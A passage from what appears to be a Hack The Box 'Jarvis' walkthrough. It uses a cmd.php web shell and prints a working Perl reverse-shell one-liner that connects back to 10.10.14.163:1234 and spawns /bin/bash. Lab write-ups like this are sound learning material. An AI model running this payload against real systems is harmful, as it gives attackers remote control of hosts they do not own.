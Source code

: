 ![f2c794ca.png](/assets/images/posts/jarvis-htb-walkthrough/f2c794ca.png)
</a>

## Low-Privilege Shell

Having `cmd.php` is as good as getting a shell. Let\'s run a Perl one-liner reverse shell back to me, like so:

```
perl -e 'use Socket;$i="10.10.14.163";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

Bam.

<a class="image-popup">
![91071a5b.png](/assets/images/posts/jarvis-htb-walkthrough/91071a5b.png)
</a>
